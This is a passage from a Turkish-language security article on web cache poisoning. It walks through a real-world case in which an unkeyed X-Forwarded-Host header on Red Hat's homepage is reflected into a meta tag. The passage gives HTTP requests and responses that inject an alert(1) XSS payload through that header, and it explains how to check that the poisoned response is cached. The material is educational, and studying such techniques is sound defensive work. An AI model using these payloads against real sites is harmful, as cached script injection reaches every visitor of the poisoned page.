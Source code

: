 ## Gerçek Dünyadan Vakalar

### Basit Zehirleme

Param Miner, Red Hat’in ana sayfasında anahtar olarak kullanılmayan bir girdi buldu.

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET /en?cb<span class="o">=</span>1 HTTP/1.1
Host: www.redhat.com
<span style="color:DodgerBlue">X-Forwarded-Host: canary</span>
</code></pre></div></div>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
&lt;meta <span class="nv">property</span><span class="o">=</span><span class="s2">"og:image"</span> <span class="nv">content</span><span class="o">=</span><span class="s2">"https://<span style="color:DodgerBlue">canary</span>/cms/social.png"</span> /&gt;
</code></pre></div></div>

Yanıta baktığımızda `X-Forwarded-Host` başlığının, Open Graph URL meta etiketi oluşturmada kullanıldığını görebiliyoruz.

<p class="mavi"><strong>ℹ️ Not:</strong> <strong><em>Open Graph</em></strong>&nbsp;Protokolü,&nbsp;<strong><em>URL</em></strong>‘lerin sosyal medyada paylaşıldığında nasıl görüntüleneceğini kontrol eden bir çözümdür.</p>

`X-Forwarded-Host` başlığının yanıta yansıdığını gördükten sonra ilk adım bunu nasıl kötüye kullanabileceğimizi keşfetmekte. Örneğin XSS payload’ı ekleyip deneyebiliriz.

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET /en?<span style="color:DodgerBlue">onbellekdenemesi<span class="o">=</span>1</span> HTTP/1.1
Host: www.redhat.com
<span style="color:DodgerBlue">X-Forwarded-Host: a.<span class="s2">"&gt;&lt;script&gt;alert(1)&lt;/script&gt;
</span></span></code></pre></div></div>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
&lt;meta <span class="nv">property</span><span class="o">=</span><span class="s2">"og:image"</span> <span class="nv">content</span><span class="o">=</span><span class="s2">"https://a."</span><span style="color:DodgerBlue"><span class="o">&gt;</span>&lt;script&gt;alert<span class="o">(</span>1<span class="o">)</span>&lt;/script&gt;</span><span class="s2">"/&gt; 
</span></code></pre></div></div>

Evet istediğimiz xss yükünü yanıta ekleyebildik. Şimdi bu yanıtın diğer kullanıcılar gösterilebilmesi için önbelleğe alındığından emin olmamız gerek. Bu noktada yanıtta yer alan `Cache-Control: no-cache` başlığının bizi vazgeçirmesine izin vermemeliyiz. Zira bir saldırı girişiminde bulunmak, işe yaramayacağını varsaymaktan her zaman daha iyidir. Önbelleğe alınma durumunu, isteği kötü amaçlı başlık olmadan yeniden göndererek ve ardından URL'yi doğrudan farklı bir makinedeki(mümkünse farklı bir public ip üzerinden) tarayıcıdan açarak kesin olarak doğrulayabilirsiniz:

